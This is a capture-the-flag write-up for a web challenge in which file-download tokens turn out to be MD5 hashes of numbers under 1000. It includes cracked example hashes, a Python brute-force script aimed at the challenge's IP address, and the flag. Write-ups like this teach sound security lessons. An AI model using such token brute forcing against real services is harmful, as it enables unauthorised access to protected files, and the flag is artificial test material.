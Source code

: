 # Download me ...

## Problem

The problem simply links the URL to the webpage,
![Webpage](./files/DownloadMeWebpage.png)

## Solution

Clicking on `flag.txt` results in an `Invalid token` error.

Viewing the source code, we can see that the each file has a token associated with it. 

```
download.php?file=file1.txt&token=6f2268bd1d3d3ebaabb04d6b5d099425
download.php?file=file2.txt&token=e6cb2a3c14431b55aa50c06529eaa21b
download.php?file=file3.txt&token=65658fde58ab3c2b6e5132a39fae7cb9
download.php?file=flag.txt&token=
```

The length of each token is 32 characters suggesting it might be an MD5 hash. 

Using [Hashkiller](https://hashkiller.co.uk/Cracker),
```
6f2268bd1d3d3ebaabb04d6b5d099425 MD5 753 or osCommerce 75:3
e6cb2a3c14431b55aa50c06529eaa21b MD5 952 or osCommerce 95:2
65658fde58ab3c2b6e5132a39fae7cb9 MD5 536 or osCommerce 53:6
```

We realize that all the hashes are simply numbers, meaning we can brute force the valid token.

Here is the python script that does that:
```python
import requests
import hashlib

url = 'http://159.89.22.33:25632/download.php?file=flag.txt&token='

for n in range(1000):
	m = hashlib.md5()
	m.update(str(n))
	r = requests.get(url + m.hexdigest())
	if(r.text != 'Invalid token.'):
		print r.text
		break
```

Flag: **AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}**
